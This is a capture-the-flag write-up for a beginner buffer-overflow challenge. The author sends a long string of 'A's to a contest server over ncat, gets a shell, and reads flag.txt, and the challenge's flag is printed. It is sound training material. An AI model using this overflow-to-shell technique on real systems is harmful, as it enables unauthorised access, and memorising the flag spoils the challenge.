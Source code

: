 # Overflow-0

![Overflow-0](Overflow0.PNG)

### Challenge:
##### You shouldn't need hehlp with this one
##### nc myctf.ca 10005
##### 100 Points
##### Files: 
* [coffer-overflow-0](coffer-overflow-0)
* [coffer-overflow-0.c](coffer-overflow-0.c)

### Solve:

The challenge provided 2 files and a port on a server. The remote end of the server I assume contained the program that was provided, however I didn't even need to open the 2 provided files.

The name of the challenge suggests a buffer overflow attack is needed to obtain the flag, so the first thing I did was to connect to the remote server and attempt to fill the buffer to cause an overflow:

```
ncat myctf.ca 10005
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
ls
Makefile
bin
coffer-overflow-0
coffer-overflow-0.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt
flag{b0ffer_0verf10w_3asy_as_123}
```
The program's buffer was over filled, which ultimatly provided access to the shell of the host. The flag was in the root directory.

### Flag
```
flag{b0ffer_0verf10w_3asy_as_123}
```
